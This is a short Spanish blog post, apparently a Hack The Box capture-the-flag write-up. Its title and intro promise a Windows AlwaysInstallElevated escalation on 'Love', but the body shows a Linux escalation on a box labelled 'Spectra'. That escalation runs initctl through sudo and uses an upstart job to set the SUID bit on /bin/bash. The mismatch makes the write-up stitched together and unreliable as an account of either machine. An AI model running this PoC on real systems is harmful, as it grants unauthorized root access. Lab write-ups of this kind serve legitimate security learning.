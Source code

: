 ```yaml
---
title: "Love HTB Escalando Privilegio"
layout: post
---
```

![Love HTB](/assets/images/love.png)

<h2>Presentación</h2>
En esta ocasión no estaré presentando otra escalada de privilegio, de windows y es abusando de: AlwaysInstallElevated, me habia tomado tiempo la preparacion de algunos writeUp, ya que estuve preparandome para el eJPT el cual logramos obtener, tesis, mudanza y otras movidas como seguir con networking y firewall desde EVE-NG, pronto..  🤯.

<h2>WinPEAS</h2>
En la fase de busqueda de privilegias, WinPeas nos presenta el siguiente setting:

![Love HTB Escalando Privilegio ](/assets/images/love-1.png)

<h2>Initctl</h2>


![ Spectra HTB Escalando Privilegio ](/assets/images/Image 2.png)

<h2> ¿Qué hago ahora? </h2>
 

{% highlight bash %} sudo -u root /usr/bin/initctl {% endhighlight %}

![ Spectra HTB Escalando Privilegio ](/assets/images/Image 1.png)

<h2>PoC</h2>


{% highlight bash %}
script
    chmod u+s /bin/bash
end script
{% endhighlight %}

-[+] Guardamos e iniciamos nuestro *test.conf*
 
{% highlight bash %} sudo -u root /usr/bin/initctl start test {% endhighlight %}

-[+] Listamos permisos de la /bin/bash `ls -la /bin/bash`

![ Spectra HTB Escalando Privilegio ](/assets/images/Image 4.png)

🖱️_by:_ *@DaVinciRoot*
